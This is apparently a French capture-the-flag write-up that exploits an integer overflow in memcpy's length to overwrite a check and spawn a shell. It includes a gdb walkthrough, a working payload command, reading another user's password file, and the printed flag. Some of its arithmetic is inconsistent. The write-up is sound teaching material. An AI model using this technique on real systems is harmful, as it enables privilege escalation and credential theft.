 #  Shell Code Exploitation

En décompilant l'exécutable, on remarque que le programme doit passer 2 conditions qui lui permettront de lancer un `shell` avec les droits de bonus2.

 1. Notre premier argument doit-être inférieur à 10.
 2. Notre premier argument doit-être égal à  `0x574f4c46`  soit  `1464814662`en base 10.
```C
arg1 = atoi(argv[1]);
if (arg1 < 10) {
	memcpy(buffer, argv[2], (len(argv[1]) * 4));
	if (argv[1] == 0x574f4c46)
		execl("/bin/sh");
}
```
Il y a une contradiction entre ces deux conditions. Cela nous semble donc impossible d'arriver jusqu'au `bin/sh`. Visiblement la seule chose qui nous permettent de réaliser un exploit est le `memcpy`.

Voici le prototype de la fonction `memcpy`:
```
void  *memcpy(void  *dest,  const  void  * src,  size_t n)
```
On voit que le troisième argument de `memcpy` est un `size_t`. Le fait que cela soit un size_t va nous être très utile, puisque qu'il n'y a pas de nombre négatif avec ce type. 

On peut donc faire un `underflow` et faire copier un nombre d'octets assez grand à `memcpy` pour écraser notre valeur de comparaison. Notre hypothèse est donc vérifiée : nous allons utiliser `memcpy` pour lancer notre `shell`.

Voyons tout ça dans `gdb`.

```
> gdb ./bonus1
[...]
> (gdb) disass main 
[...]
   0x08048470 <+76>:	mov    %eax,(%esp)
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
```
On voit un call a `memcpy`, on va donc `break` juste après, sur la comparaison  et lancer le programme avec différentes valeurs.
```
(gdb) break *0x08048478
[...]
(gdb) r 8 A
(gdb) x/50wx $esp
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000020	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x6e69622f
0xbffff6d0:	0x7361622f	0x45540068	0x783d4d52	0x6d726574
0xbffff6e0:	0x3635322d	0x00000000	0x080484b9	0x00000008
(gdb) x $esp
0xbffff6b0:	0xbffff6c4
(gdb) x $esp+0x3c
0xbffff6ec:	0x00000008
```
On affiche `esp` juste après l'appel à `memcpy`. Au moment de la comparaison, on peut voir `0x00000020` (32 en base 10). 
Lorsqu'on affiche `esp`, on obtient l'adresse de notre début de `buffer : 0xbffff6c4`.
Lorsqu'on affiche `esp+0x3c`, donc ce qui correspond a notre comparaison,  on obtient `0xbffff6ec:	0x00000008`. Nous avons donc ici notre adresse de comparaison : `0xbffff6ec` et notre premier argument `0x00000008` (8 en base10).
Nous avons mis `8` comme premier argument. On a `break` après `memcpy`, donc la multiplication par 4 s'est effectuée. `8 * 4 = 32`. 
`0x00000020` correspond donc bien à notre premier argument après la multiplication par 4.

Nous voulons maintenant savoir quel valeur nous devons mettre afin que notre programme exécute bien un `shell`. 
Nous avons notre `adresse de cmp` ainsi que notre adresse de `debut de buffer`.
Nous allons donc faire 
```
[Adresse de cmp]-[adresse_début_buffer]
[0xbffff6ec] - [0xbffff6c4] = 0x28 = 40
```
On peut vérifier cela avec gdb.
```
(gdb)x/50wx $esp
[...]
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000008	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x080484d1
								 ^
								 Début du buffer (0xbffff6c4)
0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6e0:	0xb7fed280	0x00000000	0x080484b9	0x00000002
											    ^
											    Fin du buffer (0xbffff6ec)
```

Sauf que notre dernière adresse n'est pas pris en compte. On doit donc ajouter 4 pour avoir un buffer remplis. 

On divise donc 44 / 4 car il sera multiplié par 4 dans le memcpy.
On obtient donc 11. Il va donc écrire 11 fois la valeur de comparaison (`0x574f4c46`) .
Cette valeur de comparaison en little indian est donc `\x46\x4c\x4f\x57`.

On peut maintenant tester avec la valeur `intmin` +  44.
```
-2147483647 + 44 = -2147483603
```

```
(gdb) break *0x08048473
[...]
(gdb) r -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*11'`
[...]
(gdb) continue
[...]
process 3514 is executing new program: /bin/dash
```
Notre programme se lance bien !
```
./bonus1 -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*164'`
[...]
$whoami
[...]
bonus2
$ cat /home/user/bonus2/.pass
[...]
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```